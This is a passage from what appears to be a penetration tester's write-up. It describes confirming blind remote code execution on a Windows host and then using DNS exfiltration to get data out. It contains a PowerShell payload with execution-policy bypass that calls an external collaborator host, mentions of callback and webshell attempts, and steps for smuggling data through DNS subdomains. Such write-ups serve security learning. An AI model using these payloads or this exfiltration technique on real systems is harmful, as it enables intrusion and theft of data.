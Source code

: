 My first payloads consisted of callbacks to my burp collaborator using via TCP using `wget`, UDP using `nslookup` and ICMP using `ping`. But none of them were giving me any response. Next I tried writing to files so that I could get a webshell. But the path was difficult to ascertain. The PoC gave different paths and none of them where working for me. I came to the conclusion that the path is probably different from system to system. So it seems to be a dead end.

## DNS Requests

As I was trying out windows payloads using powershell and `wget`, I noticed that I was getting DNS hits on my burp collaborator. The hits came only once for each collaborator URL and the hit was coming from a name server that belonged to the organization I was testing. To confirm that this was indeed triggered by my payload I added a sleep before the payload to create a delay before the DNS query. 

The payload I was using was 

```powershell
powershell -exec bypass -c "sleep 60;wget 'kuiudtisadndwxklxi7g9c6rwi28qx.burpcollaborator.net'"
```

And I did get a hit exactly after 65 seconds, which confirms that the system is running on windows and we indeed have blind RCE.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/dns/1.2.png){: .align-center}
image 1.2

Looking at the above picture, we can see that something is trying to resolve our request, but the actual request is getting blocked. There was also one more thing I noticed. If I try the same url again, I would not get a DNS hit as the DNS request is probably getting cached.

## DNS Exfilteration

So we have the following

1. We have RCE on a system, but there is no way to read the output.
2. The application cannot initiate communication with any system outside. So all kinds of callbacks are out of question.
3. We get DNS hits for the URL we send to the system.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/dns/1.3.png){: .align-center}
image 1.3

Our application infra probably looks something like the above picture.

After some research, I came upon this awesome technique called DNS exfiltration. 

> Actually, this is not new technical, according to the Akamai, this technique is about 20 years old. In a simple definition, DNS Data exfiltration is way to exchange data between 2 computers without any directly connection, the data is exchanged through DNS protocol on intermediate DNS servers.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/dns/1.4.png){: .align-center}
image 1.4 

To exfiltarate data via DNS
1. Setup a domain and point the name server to one we control. This can be archived using burp collaborator or buying a domain and settings its name server to a server we control.
2. Append the data to exfilterate as a subdomain of a domain we have control over and send the request.
3. The data will be part of the DNS request we receive. 
